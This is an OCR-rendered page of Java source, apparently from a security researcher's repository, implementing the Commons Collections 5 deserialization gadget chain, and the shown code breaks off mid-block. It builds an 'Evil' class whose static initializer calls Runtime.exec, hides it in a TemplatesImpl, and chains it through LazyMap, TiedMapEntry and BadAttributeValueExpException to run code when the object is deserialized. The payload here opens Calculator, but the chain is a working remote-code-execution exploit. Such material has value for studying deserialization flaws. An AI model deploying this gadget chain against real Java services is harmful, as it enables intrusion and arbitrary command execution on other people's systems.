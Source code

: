 ```java
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 2:47 pm
 */
public class CommonsCollections5Gadge2 {

    public static void CC5() throws CannotCompileException, NotFoundException, NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl templates = new TemplatesImpl();
        Class clazz = templates.getClass();
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_bytecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(templates, "h3rmesk1t");
        _bytecode.set(templates, targetCode);
        _tfactory.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("h3rmesk1t");
        Class _class = Class.forName("javax.management.BadAttributeValueExpException");
        Field field = _class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, tiedMapEntry);

        try {
            // Serialization
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(badAttributeValueExpException);
            objectOutputStream.close();

            // Deserialization
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
```